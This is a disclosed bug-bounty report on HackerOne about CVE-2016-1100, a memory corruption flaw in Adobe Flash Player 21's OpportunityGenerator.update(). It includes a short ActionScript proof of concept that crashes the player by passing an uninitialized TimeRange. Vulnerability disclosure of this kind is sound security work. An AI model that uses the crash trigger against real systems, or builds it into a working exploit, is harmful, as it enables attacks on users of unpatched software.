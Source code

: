 # Adobe Flash Player OpportunityGenerator class Memory Corruption Vulnerability

## Report Details
- **Report ID**: 138518
- **URL**: https://hackerone.com/reports/138518
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-13T01:14:16.918Z
- **Disclosed**: 2019-11-12T09:42:44.293Z

## Reporter
- **Username**: hhj4ck
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I. Summary
Adobe Flash Player is prone to a vulnerability which leads to memory corruption because of improper validation of OpportunityGenerator.update().
------------------------------------------------------------------
II. Description
Adobe Flash is a multimedia and software platform used for authoring of vector graphics, animation, games and rich Internet applications (RIAs) that can be viewed, played and executed in Adobe Flash Player. 

Normally, update() should validates its parameter and returns error in AS3 level if anything goes wrong.
If update() function is invoked directly with invalid parameter, some inner class instance will be absent, which will cause a memory crash.

POC Source Code:

package
{
	import com.adobe.tvsdk.mediacore.PSDK;
	import com.adobe.tvsdk.mediacore.utils.TimeRange;	
	import flash.display.Sprite;
	
	public class poc extends Sprite
	{
		public function poc()
		{
			var ps:PSDK = PSDK.pSDK;
			var tr:TimeRange;
			ps.createOpportunityGenerator(0).update(1,tr);
		} 
	}
}
------------------------------------------------------------------
III. Impact
Memory Corruption
------------------------------------------------------------------
IV. Affected
Adobe Flash Player 21.
------------------------------------------------------------------
V. Credit
Wen Guanxing from Pangu LAB is credited for this vulnerability.

It has been assigned as CVE-2016-1100 by Adobe:
https://helpx.adobe.com/security/products/flash-player/apsb16-15.html

## Attachments
- poc.swf
